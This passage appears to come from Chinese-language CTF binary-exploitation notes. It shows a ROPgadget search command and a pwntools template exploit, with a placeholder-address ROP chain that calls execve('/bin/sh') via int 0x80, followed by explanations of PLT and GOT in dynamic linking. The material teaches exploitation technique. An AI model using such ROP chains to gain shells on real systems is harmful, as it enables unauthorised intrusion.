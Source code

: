   > ```shell
  > ROPgadget --binary PWN1  --only 'pop|ret' | grep 'edx'
  > ```
  >
  
- 示例exploit

  ```python
  from pwn import *
  
  io = process("")
  
  pop_eax_ret = 0x0000
  pop_edx_ecx_ebx_ret = 0x0123123
  int_80h = 0x031203
  bin_sh = 0x123123
  
  payload = flat([b'A'*112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, bin_sh, int_80h])
  io.sendline(payload)
  io.interactive()
  ```

  

## 动态链接过程

- ldd file：查看程序用到的所有动态连接库

### PLT（Procedure Linkage Table）

1. **作用**：
   - PLT是程序链接表，用于支持动态链接库中的函数调用。
   - 它允许可执行文件或共享库在第一次使用某个符号时，将其解析工作推迟到运行时，而不是编译或链接时。
2. **工作原理**：
   - 当程序第一次调用一个外部函数（例如动态链接库中的函数）时，调用会跳转到PLT表中的对应条目。
   - PLT条目会执行一些代码，这段代码会检查GOT中的相关条目是否已经填充了该函数的地址。
     - 如果没有，PLT条目会调用动态链接器（动态加载器），动态链接器会解析符号并填充GOT中的相关条目。
     - 如果已经填充了，PLT会直接跳转到实际的函数地址。
   - 这样，后续对该函数的调用就可以直接通过GOT获取地址，避免了重复的符号解析。

### GOT（Global Offset Table）

1. **作用**：
   - GOT是全局偏移表，用于保存全局变量和函数的地址**。
   - 在动态链接过程中，GOT用于存储从动态链接库中解析出来的符号地址。
2. **工作原理**：
   - 可执行文件或共享库中的每一次对外部变量或函数的引用都会被指向GOT中的一个条目。
   - 当程序第一次运行时，GOT中的这些条目可能还没有被初始化。
   - 在第一次函数调用时，PLT会触发符号解析，动态链接器会找到实际的地址并写入GOT条目中。
   - 后续的调用会直接使用GOT中记录的地址，避免了重新解析符号。

![image-20240623162557094](C:/Users/HP/AppData/Roaming/Typora/typora-user-images/image-20240623162557094.png)

## ret2libc
